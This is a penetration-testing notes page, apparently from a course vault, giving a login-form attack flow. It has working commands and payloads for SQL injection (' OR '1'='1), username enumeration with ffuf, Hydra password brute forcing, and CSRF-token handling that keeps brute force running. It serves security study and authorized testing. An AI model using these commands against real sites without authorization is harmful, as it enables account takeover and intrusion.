 ```yaml
---
{"dg-publish":true,"permalink":"/itsi/tools/attackflows/login-form/"}
---
```


# Login Form Attack-Flow

## 1. Recon

### What:
Identify form URL, method (POST/GET), fields (`username`, `password`, hidden tokens, captchas, CSRF tokens), action path, and success/fail indicators.  
### How:
#### CLI:
```bash
curl -s https://target/login -o /tmp/login.html && grep -E "<form|<input" /tmp/login.html
````
#### Burp:
Submit dummy login -> HTTP History -> Inspect captured request in Proxy/History.

---
## 2. Protections check
### What:
Check for CSRF tokens, captcha, rate limits/lockouts, and differing error messages (user-enumeration risk).
### How:
#### CLI:
```bash
curl -s https://target/login | sed -n '1,200p'   # inspect hidden inputs; repeat to see token changes
```
#### Burp:
Load the page twice via the browser proxy -> compare hidden token values in Request/Response; use Repeater to submit requests without token and with token and observe differences.

---
## 3. SQLi
### What:
Try quick logic/SQLi payloads to detect injection.
### How:
#### CLI:
Manual Probing first [[ITSI/Tools/Attackflows/sqli-probing\|sqli-probing]]. If succuessfull then try [[ITSI/Tools/sqlmap\|sqlmap]]
#### Burp:
Send request to Repeater (CRTL + I) -> inject `' OR '1'='1` at user and pass

---
## 4. Username enumeration
### What:
Determine if responses differ for valid vs invalid usernames (enables targeted brute forcing).
### How:
#### CLI:
```bash
ffuf -X POST -u https://target/login -d "username=FUZZ&password=test" -w users.txt -mc 200,302
```
#### Burp:
Use Intruder on username with `payload.txt` ([[ITSI/Tools/tools#Wordlists\|tools#Wordlists]]) as payloads; compare response lengths/status codes or grep for failure/success signatures.

---
## 5. Password brute-force
### What:
Attempt passwords for a known username using a small list ([[ITSI/Tools/tools#Wordlists\|tools#Wordlists]]).
### How:
#### CLI (Hydra):
```bash
hydra -l admin -P rockyou-small.txt target.com http-post-form \
  "/login:username=^USER^&password=^PASS^:F=Invalid" -t 4
```
#### Burp:
Use Intruder: place position at `password`, load a wordlist ([[ITSI/Tools/tools#Wordlists\|tools#Wordlists]]), enable payload processing (URL-encode), add throttling, then run and triage by response differences.

---
## 6. CSRF <font color="red">(WIP)</font>

### What:
If the form requires a per-request token, fetch and include the token for each attempt — otherwise brute force attempts will fail.
### How:
#### CLI:
```bash
token=$(curl -s https://target/login | grep -Po 'name="csrf_token" value="\K[^"]+')
curl -s -X POST https://target/login -d "username=admin&password=PASS&csrf_token=$token"
```
(For many attempts, fetch token per iteration or use a session-aware script in Python/requests.)
#### Burp:
**Note** : **Not really doable without Pro version**
Configure a macro to fetch/refresh the token and set Intruder to run that macro before payloads (Burp Pro). With Burp Community, use Repeater or an external script to replicate token behavior.

---

## 7. Handling JS-heavy flows <font color="red">(WIP)</font>
### What:
If login relies on client-side JS (dynamic tokens/challenges), emulate a real browser or automate with a browser driver.
### How:
#### CLI:
Use Selenium or Playwright to automate the real browser flow (headless if needed) and submit the form with the JS-generated values.
#### Burp:
Capture the full browser flow with Burp -> reproduce the sequence in an automated script, or use Burp's embedded browser to observe the JS behavior and then replicate requests.

---
## 8. Post-auth checks  <font color="red">(WIP)</font>
### What:
Enumerate authenticated-only endpoints, check IDORs, privilege escalation, session handling and other post-login issues.
### How:
#### CLI:
```bash
ffuf -u https://target/admin/FUZZ -w web-content-common.txt -b "session=VALUE" -mc 200
```
#### Burp:
Use the authenticated session cookie in Proxy -> explore with Repeater/Intruder/Spider. If available, run Scanner on authenticated pages to find common issues.

---
## 9. Logging & evidence capture
### What:
Save exact requests/responses for reproducibility, reporting, and proof-of-concept.
### How:
#### CLI:
```bash
curl -v -X POST https://target/login -d "username=admin&password=pass" -D headers.txt -o body.html
```
#### Burp:
Right-click a request/response in Proxy or History -> Save item / Export raw request. Keep timestamps and notes of commands used.
